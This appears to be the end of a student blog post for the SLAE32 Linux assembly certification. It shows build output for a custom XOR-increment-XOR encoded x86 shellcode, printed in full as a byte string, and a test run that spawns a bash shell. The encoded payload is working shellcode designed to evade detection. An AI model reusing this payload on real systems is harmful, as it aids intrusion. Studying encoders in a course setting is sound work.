 ```bash

[+] Assemble: decoder.nasm
[+] Linking: decoder.o
[+] Shellcode: "\xeb\x17\x5e\x31\xc9\x31\xd2\xb2\x1e\x39\xd1\x74\x11\x80\x36\x11\xfe\x0e\x80\x36\x05\x46\x41\xeb\xf0\xe8\xe4\xff\xff\xff\x24\xd7\x47\x7f\x79\x74\x66\x7f\x7f\x79\x7c\x7d\x3a\x7f\x3a\x3a\x3a\x3a\x9c\xf6\x47\x9c\xf9\x46\x9c\xf4\xa7\x1e\xd8\x97"
[+] ASM code: 0xeb,0x17,0x5e,0x31,0xc9,0x31,0xd2,0xb2,0x1e,0x39,0xd1,0x74,0x11,0x80,0x36,0x11,0xfe,0x0e,0x80,0x36,0x05,0x46,0x41,0xeb,0xf0,0xe8,0xe4,0xff,0xff,0xff,0x24,0xd7,0x47,0x7f,0x79,0x74,0x66,0x7f,0x7f,0x79,0x7c,0x7d,0x3a,0x7f,0x3a,0x3a,0x3a,0x3a,0x9c,0xf6,0x47,0x9c,0xf9,0x46,0x9c,0xf4,0xa7,0x1e,0xd8,0x97
[+] Creating File: shellcode.c
[+] Compiling Executable: shellcode
[+] Enjoy!
```

By running the compiled binary (`shellcode`), we can confirm the `decoder.nasm` successfully decode our XOR-Increment-XOR encoding scheme and run the expected command of `/bin/bash`.

```bash
# ./shellcode 
root@kali:/root# id
uid=0(root) gid=0(root) groups=0(root)
root@kali:/root#
```

<b>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:</b>

<b>http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/</b>

<b>Student ID: SLAE-1542</b>

[SLAE32 Assignemt#4 Github](https://github.com/bigb0sss/SLAE32)